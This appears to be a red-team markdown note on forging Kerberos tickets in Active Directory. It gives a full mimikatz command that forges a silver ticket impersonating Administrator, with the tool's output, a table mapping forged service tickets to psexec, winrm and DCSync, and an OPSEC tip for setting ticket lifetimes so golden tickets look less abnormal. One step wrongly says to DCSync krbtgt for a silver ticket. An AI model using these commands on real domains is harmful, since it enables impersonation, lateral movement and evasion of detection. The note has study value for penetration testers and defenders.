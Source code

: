 ## [[Silver Ticket]]
### Create silver ticket
1. [[DCSync]] the krbtgt user
2. Generate [[Silver Ticket]]
Where:
-   `/user` is the username to impersonate.
-   `/domain` is the current domain name.
-   `/sid` is the current domain SID.
-   `/target` is the target machine.
-   `/aes256` is the AES256 key for the target machine.
-   `/ticket` is the filename to save the ticket as.
```beacon
mimikatz # kerberos::golden /user:Administrator /domain:edu.evil.corp /sid:S-1-5-21-3263068140-2042698922-2891547269 /target:srv2 /service:cifs /aes256:babf31e0d787aac5c9cc0ef38c51bab5a2d2ece608181fb5f1d492ea55f61f05 /ticket:srv2-cifs.kirbi
User      : Administrator
Domain    : edu.evil.corp (EDU)
SID       : S-1-5-21-3263068140-2042698922-2891547269
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: babf31e0d787aac5c9cc0ef38c51bab5a2d2ece608181fb5f1d492ea55f61f05 - aes256_hmac
Service   : cifs
Target    : srv2
Lifetime  : 25/05/2022 10:30:08 ; 23/05/2031 10:30:08 ; 23/05/2031 10:30:08
-> Ticket : srv2-cifs.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !
```
3. [[Use Kerberos ticket (kirbi)]]

Here are some useful ticket combinations:
| Technique         | Required Service Tickets |
| ----------------- | ------------------------ |
| psexec            | CIFS                     |
| winrm             | HOST & HTTP              |
| dcsync (DCs only) | LDAP                     | 

## [[Golden Ticket]]
### Create golden ticket (user)
#OPSEC Specify the lifetime (mimikatz does abnormal 10 years)
Use the `/startoffset`, `/endin` and `/renewmax` parameters to control the start offset, duration and the maximum renewals (all in minutes).

